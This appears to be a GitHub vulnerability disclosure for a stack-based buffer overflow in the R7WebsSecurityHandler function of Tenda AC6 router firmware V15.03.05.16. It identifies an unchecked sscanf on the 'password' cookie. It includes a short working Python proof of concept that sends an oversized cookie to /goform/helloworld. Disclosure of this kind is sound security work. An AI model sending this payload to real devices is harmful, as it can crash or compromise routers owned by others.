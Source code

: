 # Tenda-Vul
Product:
Tenda AC6

Version:
V15.03.05.16
https://www.tenda.com.cn/material/show/102661

Problem Type:
Stack overflow

Description:
A vulnerability classified as critical has been found in Tenda AC6 15.03.05.16. Affected is the function R7WebsSecurityHandler of the file /goform/xxx. The manipulation of the argument password leads to stack-based buffer overflow. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. Other parameters might be affected as well.

Detial:
At the function of R7WebsSecurityHandler line 94：sscanf(v44, "%*[^=]=%[^;];*", v34).This function does not validate the user input.Copy user input directly into the stack.

POC:
import requests
URL = "http://192.168.2.3:80/goform/helloworld"
cookie = {"Cookie":"password="+"a"*0x400+".pngAAA"}
requests.get(url=URL, cookies=cookie)

![image](https://github.com/user-attachments/assets/c1a89751-2276-4f9b-be2a-1fba6a3be880)
